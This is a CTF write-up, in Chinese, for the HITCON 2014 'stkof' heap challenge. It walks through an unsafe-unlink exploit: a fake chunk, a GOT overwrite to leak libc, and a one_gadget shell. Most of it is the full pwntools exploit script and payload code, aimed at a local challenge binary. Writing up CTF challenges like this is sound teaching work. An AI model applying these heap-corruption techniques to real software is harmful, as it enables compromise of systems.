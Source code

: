 ```yaml
---
title: hitcon ctf 2014 - stkof
categories:
  - pwn
tags: unsafe-unlink
published: true
---
```


# Introduction

学习 how2heap 中 unsafe unlink 的知识点

- [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c)

**[stkof](https://github.com/0x3f97/pwn/blob/master/hitcon-ctf-2014-stkof/stkof)**: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped

{% highlight bash %}
checksec stkof

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

{% endhighlight %}

- malloc - 调用 malloc 函数分配用户指定大小的内存，并在 bss 段存储分配的内存地址
- write - 填充任意大小的内存，可以溢出
- free - 调用 free 函数释放一块内存，参数从 bss 段中取
- puts - 输出程序限定的字符串，没什么用的函数

# Leak Libc

根据 unsafe unlink 的原理，分配两块相邻的内存，这里取 chunk2 和 chunk3

```
malloc(0x80)
malloc(0x80)	# chunk2
malloc(0x80)	# chunk3
```

而我们有一个已知位置的全局指针 `0x602140 + 0x10`，存放着 chunk2 的地址，则构造 fake chunk，再释放 chunk3 调用 unlink，实现任意地址写

```
payload = p64(0)
payload += p64(0x8)
payload += p64(0x602140+0x10-0x18)
payload += p64(0x602140+0x10-0x10)
payload += p64(0)*12
payload += p64(0x80)
payload += p64(0x90)
write(2, payload)

free(3)

gdb-peda$ x/16xw 0x602130
0x602130:	0x00000000	0x00000000	0x00000000	0x00000000
0x602140:	0x00000000	0x00000000	0x02c92020	0x00000000
0x602150:	0x00602138	0x00000000	0x00000000	0x00000000
0x602160:	0x00000000	0x00000000	0x00000000	0x00000000
```

接下来可以写 got 表，将 free 的 got 内容改写成 puts 的 plt 地址，则可以任意地址读

```
payload = p64(0)*3
payload += p64(free_got)
payload += p64(atol_got)	# 这里加上 atol_got 是为写 system 做准备
write(2, payload)

payload = p64(puts_plt)
write(2, payload)
```

这时以索引值 3 调用程序的第三个函数，则会将 atol 的 got 值打印出来，由此计算 libc 的基址

# Exploit

之后可以继续写 free 的 got 为 one_gadget 来 get shell，也可以写 system，完整的 exploit 代码：

- [exp.py](https://github.com/0x3f97/pwn/blob/master/hitcon-ctf-2014-stkof/exp.py)

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "debug"

elf = "./stkof"
ENV = {"LD_PRELOAD":"./libc.so.6"}

p = process(elf)

def malloc(size):
    p.sendline("1")
    p.sendline(str(size))
    p.recvuntil("OK\n")

def write(idx, content):
    p.sendline("2")
    p.sendline(str(idx))
    p.sendline(str(len(content)))
    p.send(content)
    p.recvuntil("OK\n")

def free(idx):
    p.sendline("3")
    p.sendline(str(idx))
    p.recvuntil("OK\n")

def puts(idx):
    p.sendline("4")
    p.send(idx)

pop3_ret = 0x400dbe
pop_rdi_ret = 0x400dc3
pop_rsi_pop_ret = 0x400dc1
pop_rsp_pop3_ret = 0x400dbd

puts_plt = 0x400760
free_got = 0x602018
atol_got = 0x602080

system_off = 0x45390
bin_sh_off = 0x18cd17
one_gadget1 = 0x45216
one_gadget2 = 0x4526a
one_gadget3 = 0xcd0f3
one_gadget4 = 0xcd1c8
one_gadget5 = 0xf0274
one_gadget6 = 0xf0280
one_gadget7 = 0xf1117
one_gadget8 = 0xf66c0


malloc(0x80)
malloc(0x80)    # chunk2
malloc(0x80)    # chunk3

payload = p64(0)
payload += p64(0x8)
payload += p64(0x602140+0x10-0x18)
payload += p64(0x602140+0x10-0x10)
payload += p64(0)*12
payload += p64(0x80)
payload += p64(0x90)
write(2, payload)

free(3)

payload = p64(0)*3
payload += p64(free_got)
payload += p64(atol_got)
#payload += p64(0x602160)
write(2, payload)

payload = p64(puts_plt)
write(2, payload)

#gdb.attach(p)
p.sendline("3")
p.sendline("3")

libc_base = u64(p.recvline().strip().ljust(8, "\x00"))-0x36ea0
log.info("libc_base: "+hex(libc_base))

system_addr = libc_base + system_off
payload = p64(system_addr)

one_gadget = libc_base + one_gadget5
payload = p64(one_gadget)
write(2, payload)

bin_sh_addr = libc_base + bin_sh_off
payload = p64(bin_sh_addr)
#write(4, payload)

#gdb.attach(p)
p.sendline("3")
p.sendline("2")

p.interactive()
```

**Reference**
- [CTF Writeup - HITCON CTF 2014 stkof or the "unexploitable" heap overflow ?](http://acez.re/ctf-writeup-hitcon-ctf-2014-stkof-or-modern-heap-overflow/)
